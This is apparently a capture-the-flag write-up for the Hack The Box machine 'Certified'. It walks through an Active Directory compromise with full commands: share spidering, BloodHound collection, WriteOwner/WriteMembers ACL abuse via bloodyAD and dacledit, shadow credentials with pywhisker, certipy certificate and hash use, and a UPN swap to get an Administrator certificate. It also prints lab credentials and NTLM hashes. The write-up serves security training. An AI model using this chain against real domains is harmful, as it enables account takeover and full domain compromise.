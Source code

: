 ```yaml
---
description: 'Username: judith.mader Password: judith09'
---
```


# 📦 Certified

We start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Then i looked at the different shares and downloaded everything:

```
nxc smb 10.129.231.186 -u judith.mader -p judith09 -M spider_plus -o DOWNLOAD_FLAG=True
```

But nothing interesting so i went and looked at rpcclient and found some usernames:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I put this in a list and launch my bloodhound collector to get e better look of the domain:

```
bloodhound-python -u judith.mader -p 'judith09' -c All -d certified.htb -ns 10.129.231.186
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
neo4j console
#then i set creds and in another console 'bloodhound' as low level user
```

After uploading all of the jsons to bloodhound and marking judith as owned we can see she has writeowner on Managment@certified.htb

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

While looking at the query: Shortest Paths to High Value Targets, we start to understand we have to take control of MANAGEMENT\_SVC, the path finder was also very visual on what we need to do:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

> **WriteOwner** permission allows attackers to change object ownership in **Active Directory**, giving them full control to manipulate or take over the object.

Since i have poor knowledge on bloodyAD for the moment i went and found a nice cheat sheet:

{% embed url="https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad" %}

* In Active Directory, the **Owner** of an object can modify its **Access Control Entries (ACEs)**.
* Now, **judith.mader** can **modify permissions** on the Management group.

Since I have `WriteOwner`, I should **take ownership** first. This allows me to **modify group permissions** and escalate privileges further:

```
bloodyAD --host 10.129.231.186 -d "certified.htb" -u "judith.mader" -p "judith09" set owner Management judith.mader
```

<figure><img src="../../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since I **own the group**, I should **grant myself more useful permissions**. `WriteMembers` lets me **add myself** to the Management group

```
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09'
```

<figure><img src="../../../.gitbook/assets/image (6) (1) (2).png" alt=""><figcaption></figcaption></figure>

Adding a user to a high-privilege group means they inherit **new permissions**. Now that I have `WriteMembers`, I can **add myself** to a powerful group. This could give me access to **sensitive accounts or systems**.

```
bloodyAD --host 10.129.231.186 -d 'certified.htb' -u 'judith.mader' -p 'judith09' add groupMember "Management" "judith.mader"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (2).png" alt=""><figcaption></figcaption></figure>

Now that i am in the group of management\_svc, I need **persistent access** to an **elevated account**. `management_svc` might have **high privileges**, so I use **PyWhisker** to gain access **without needing a password**.

**KeyCredentialLink** is an attribute used for **Azure AD and certificate-based authentication**. **Abusing it allows adding a rogue certificate** to an account (without needing its password). This lets the attacker **authenticate as that user** without triggering password resets or alerts.

{% embed url="https://podalirius.net/fr/articles/parsing-the-msds-keycredentiallink-value-for-shadowcredentials-attack/" %}

{% embed url="https://github.com/ShutdownRepo/pywhisker/" %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (2).png" alt=""><figcaption></figcaption></figure>

```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p judith09 --target "management_svc" --action add
```

We can see that _A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools to &#x67;_&#x65;nerate a **Kerberos Ticket Granting Ticket (TGT)** for `management_svc`

{% embed url="https://github.com/dirkjanm/PKINITtools/tree/master" %}

**PKINIT (Public Key Cryptography for Initial Authentication)** allows authentication via **certificates** instead of passwords. Since we added our rogue certificate, we can now **request a TGT as `management_svc`**

Ok so i had a hard time using this tool so i switched to certipy using this documentation:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate" %}

> Certipy's commands don't support PFXs with password. The following command can be used to "unprotect" a PFX file

```
certipy cert -export -pfx p9YNJGan.pfx -password "VInZMo11EzVwyq17abYg" -out "unprotected.pfx"
sudo ntpdate -u 10.129.231.186
certipy auth -pfx unprotected.pfx -dc-ip 10.129.231.186 -username 'management_svc' -domain 'certified.htb'
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (2).png" alt=""><figcaption></figcaption></figure>

Just to be sure this works:

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

So we look at what we can control and we see we have generic all on CA\_OPERATOR user:

<figure><img src="../../../.gitbook/assets/image (11) (1) (2).png" alt=""><figcaption></figcaption></figure>

Ok so i tried this command:

```
bloodyAD -u "management_svc" -h "a091c1832bcdd4677c28b5a6a1295584" -d "certified.htb" --host "10.129.231.186" set password --target "ca_operator" --new-password "Password1"
```

But from what i see, bloody ad does not take hashes, but it takes certificates so maybe i can craft a cert for ca\_operator ->

```
certipy shadow auto -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -account ca_operator
```

<figure><img src="../../../.gitbook/assets/image (12) (1) (2).png" alt=""><figcaption><p>ca_operator:b4b86f45c6018f1b664f70805f45d8f2</p></figcaption></figure>

Now i saw this trick of Updating the UPN of the user to change it to admin, the `UserPrincipalName (UPN)` of `ca_operator` is changed to `administrator`. this tricks the **Certificate Authority (CA)** into issuing a certificate for `administrator` instead of `ca_operator`.

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

```
certipy account update -u management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator
```

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

```
certipy req -username ca_operator@certified.htb -hashes b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -dc-ip 10.129.231.186 -pfx administrator.pfx
```

This gets a cert for `Administrator` thanks to the UPN change.

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

But when i try to auth i get an error and i have no idea why

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

After talking for a bit witg a friend about my situation i learned that i needed to restore ca\_operator’s UPN and after doing that i was able to use administrator.pfx to request for a TGT and get a Hash:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>
